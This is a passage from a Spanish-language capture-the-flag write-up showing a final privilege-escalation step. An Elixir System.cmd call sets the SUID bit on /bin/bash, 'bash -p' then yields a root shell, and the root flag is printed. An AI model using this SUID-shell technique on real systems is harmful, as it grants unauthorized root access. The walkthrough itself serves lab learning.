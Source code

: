 ```shell
System.cmd("chmod", ["u+s", "/bin/bash"])
```

Info:

```
{"", 0}
```

Ahora vamos a salirnos pulsando `Ctrl+C` dos veces y si listamos la `bash`...

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```

Veremos que ha funcionado de forma correcta, por lo que haremos esto:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
708883f44e1b0e57c8a501e176fad8a9
```
